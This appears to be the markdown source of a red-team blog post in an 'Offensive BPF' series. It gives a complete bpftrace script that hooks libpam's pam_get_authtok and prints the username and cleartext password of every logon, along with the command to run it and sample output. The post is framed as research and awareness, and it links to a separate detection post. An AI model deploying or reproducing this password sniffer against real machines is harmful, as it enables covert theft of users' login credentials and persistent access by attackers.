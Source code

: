 ```yaml
---
title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
date: 2022-07-10T20:00:13-07:00
draft: true
tags: [
        "pentest", "red","research","ebpf"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/obpf.png"

---
```


This post is part of a series about **Offensive BPF**. Click the ["ebpf"](/blog/tags/ebpf) tag to see all related posts.

![Offensive BPF](/blog/images/2021/offensive-bpf.png)

It has been a while that we posted something in the ["Offensive BPF"](/blog/tags/ebpf) series. But recently there have been a couple of new cool ebpf based tools, such as [TripleCross](https://github.com/h3xduck/TripleCross), [boopkit](https://github.com/kris-nova/boopkit) and [pamspy](https://github.com/citronneur/pamspy). 

So, I thought it be quite fitting to do another post in the Offensive BPF series to keep raising awareness.


# Let's sniff PAM again - pamsnoop.bt

A few weeks back we discussed a [backdoor PAM module](/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) to grab `authtok` tokens (e.g. SSH passwords) when someone logs on to a machine. In this post we will build an eBPF program using `bpftrace` to do the same. Kudos for the idea using eBPF go to [citronneur](https://github.com/citronneur/pamspy).


The short `bpftrace` script we are discussing is [here](https://github.com/wunderwuzzi23/Offensive-BPF/blob/main/bpftrace/pamsnoop.bt).

Let's walk through the details.

## Declaring the stub pam_handle struct

The  first step is to make sure we have the right data structure available. `pam_private.h` is [the header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h) in the Linux source. 

Technically you can  include the header file directly, but it might not be available if you trying to "live off the land" during a Red Team exercise. The `filler` is a bit of a hack, but it works quite well.

```
struct partial_pam_handle {
      char *filler[6];
      char *user;
};
```

Next, we create a `BEGIN` section to just show some information on the Console

```
BEGIN 
{ 
      printf("Welcome to Offensive BPF. Sniffing PAM authentications...");
      printf("Ctrl-C to exit.\n\n");
}
```

## Hooking the pam_get_authtok function

Now we create the core of the bpftrace program by hooking the `pam_getauthtok` call, reading the username and the password into a variable and printing them out once the function returns. 

```
uprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok {
      @user[tid] = ((struct partial_pam_handle *)arg0)->user;
      @authtok[tid] =  arg2;
}
    
uretprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok /@user[tid]/ {
  
      printf("Program: %s, Username: %s, AuthTok: %s\n", 
             comm, //process
             str(@user[tid]),  
             str(*@authtok[tid])); 
             
      delete(@user[tid]);
      delete(@authtok[tid]);
}
```

**Important:** If you have trouble understanding why there is a `uprobe` and a `uretprobe` go back in the ["Offensive BPF Series"](/blog/tags/ebpf) and to read up on how bpf programs are structured. 

Also, recall that `/ @user[tid] /` is the syntax to apply a filter.

## Running pamsnoop.bt

Run the script with `sudo bpftrace pamsnoop.bt`.

```
hacker@commodore:~$ sudo bpftrace tracepam.bt 
Attaching 3 probes...
Welcome to Offensive BPF. Sniffing PAM authentications...Ctrl-C to exit.

```

Now, whenever someone logs on to the machine you will see username and authentication token:

![pamsnoop](/blog/images/2022/ebpf.pam.png)

Quite useful when running across infrastructure that has `bpftrace` already installed.


# Conclusion

In this post we looked at more advanced `bpftrace` usage scenarios that adversaries can leverage and that defenders not to start being aware of. 

As a reminder, there is a defender/detection post we did in the past, located [here](/posts/2021/offensive-bpf-detections-initial-ideas/).


Cheers.


# References

* [pam_private header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h)
* [TripleCross](https://github.com/h3xduck/TripleCross) 
* [boopkit](https://github.com/kris-nova/boopkit) 
* [pamspy](https://github.com/citronneur/pamspy)
* [Offensive BPF Detection Ideas](/posts/2021/offensive-bpf-detections-initial-ideas/)

